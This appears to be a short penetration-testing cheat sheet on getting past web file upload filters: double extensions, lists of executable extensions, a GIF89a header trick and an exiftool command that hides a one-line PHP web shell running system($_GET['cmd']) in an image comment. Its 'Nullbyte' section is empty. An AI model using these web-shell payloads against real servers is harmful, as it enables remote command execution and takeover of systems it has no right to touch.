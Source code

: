 # Bypass File Upload Filtering

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

## Rename it

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php**
phtml, .php, .php3, .php4, .php5, and .inc

**asp**
asp, .aspx

**perl**
.pl, .pm, .cgi, .lib

**jsp**
.jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion**
.cfm, .cfml, .cfc, .dbm

## GIF89a;
If they check the content.
Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In image
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data.
Then I had to rename the file

mv lo.jpg lo.php.jpg

## Nullbyte


## References

http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html

https://www.owasp.org/index.php/Unrestricted_File_Upload
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf